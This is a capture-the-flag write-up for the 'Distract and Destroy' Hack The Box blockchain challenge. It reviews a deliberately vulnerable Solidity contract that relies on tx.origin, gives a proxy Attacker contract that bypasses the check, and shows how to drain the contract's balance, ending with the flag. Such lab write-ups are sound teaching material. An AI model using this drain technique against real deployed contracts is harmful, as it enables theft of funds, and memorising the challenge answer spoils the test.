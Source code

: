 # Distract and Destroy

### CHALLENGE DESCRIPTION
**_After defeating her first monster, Alex stood frozen, staring up at another massive, hulking creature that loomed over her. She knew that this was a fight she couldn't win on her own. She turned to her guildmates, trying to come up with a plan. "We need to distract it," Alex said. "If we can get it off balance, we might be able to take it down." Her guildmates nodded, their eyes narrowed in determination. They quickly came up with a plan to lure the monster away from their position, using a combination of noise and movement to distract it. As they put their plan into action, Alex drew her sword and waited for her chance._**

## Solution

**STEP 1: Code reviewing**

There we have 2 Solidity files similar to `Survival of the Fittest` codes:

>**`Setup.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }

    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```

>**`Creature.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Creature {
    uint256 public lifePoints;
    address public aggro;

    constructor() payable {
        lifePoints = 1000;
    }

    function attack(uint256 _damage) external {
        if (aggro == address(0)) {
            aggro = msg.sender;
        }

        if (_isOffBalance() && aggro != msg.sender) {
            lifePoints -= _damage;
        } else {
            lifePoints -= 0;
        }
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _isOffBalance() private view returns (bool) {
        return tx.origin != msg.sender;
    }
}
```

Here you can see some differences from the `Survival of the Fittest` files, such as `_isOffBalance()` and `aggro`. To kill the enemy, we need to bypass these conditions.


**STEP 2: The Bypass**

Take a look to the `_isOffBalance()` function

```
function _isOffBalance() private view returns (bool) {
    return tx.origin != msg.sender;
}
```

Let`s deploy a contract to avoid this.

>**`Creature.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface ICreature {
    function attack(uint256 _damage) external;
}

contract Attacker {
    ICreature target;

    constructor(address _target) {
        target = ICreature(_target);
    }

    function attack(uint256 _damage) external {
        target.attack(_damage);
    }
}
```

We need to deploy it to distract enemy.

Deploy:

![image](https://github.com/luvranse/web3/assets/46570641/30965871-2205-41cb-8e07-8e7bee8417da)


**STEP 3: The Battle**

Initiate an attack with one of our contracts. Distract the enemy.

![image](https://github.com/luvranse/web3/assets/46570641/d417621b-9c19-48eb-a161-216f52c0b59b)

Then attack with another one. 

![image](https://github.com/luvranse/web3/assets/46570641/cfe7d15c-dd96-4e7c-a96d-454a2bac6854)

Let's try take a loot. 

![image](https://github.com/luvranse/web3/assets/46570641/f551402d-c47d-4b4d-87f2-c440b85f9b50)

Congratz! There is the flag!

![image](https://github.com/luvranse/web3/assets/46570641/f895087e-50f5-404e-bd6b-5cf0580cf372)

### FLAG

```
HTB{tx.0r1gin_c4n_74k3_d0wn_4_m0n5732}
```

